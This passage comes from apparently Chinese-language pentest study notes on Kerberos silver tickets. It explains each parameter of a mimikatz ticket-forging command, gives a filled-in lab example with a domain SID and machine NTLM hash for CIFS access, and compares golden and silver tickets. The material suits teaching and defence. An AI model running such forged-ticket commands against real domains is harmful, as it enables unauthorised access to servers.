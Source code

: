- domain：域名
- sid：域环境下的SID，除去最后-的部分剩下的内容
- target：要访问的服务器，写FQDN
-  rc4：写的是目标主机的NTLM（主机名$对应NTLM）
-  service：要访问的资源类型
- user：伪造的用户
-  cifs：共享文件

其实这里可以看到导入后，确实有票据了，但是利用确实比较麻烦的，这里是将目标服务定位cifs，也就是说只有当目标主机上有cifs服务的时候才能进行利用。

```
kerberos::golden /user:yuto /domain:xiaodi.local /sid:S-1-5-21-1695257952-3088263962-2055235443 /target:DC /service:cifs /rc4:f0ff7995e6d3396e869a01e6b465eeaa /ptt

kerberos::golden /user:xxx用户名 /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash  /ptt
```

![image-20230816133615545](assets/image-20230816133615545.png)

### 4.2.2. 总结

白银票据可利用的局限性太多了。

## 4.3. 总结

关于黄金票据与白银票据的简要总结。

黄金票据：是抓取域控中ktbtgt账号的hash，来在client端生成一个TGT票据，那么该票据是针对所有机器的所有服务。

白银票据：实际就是在抓取到了域控服务hash的情况下，在client端以一个普通域用户的身份生成TGS票据，并且是针对于某个机器上的某个服务的，生成的白银票据,只能访问指定的target机器中指定的服务。
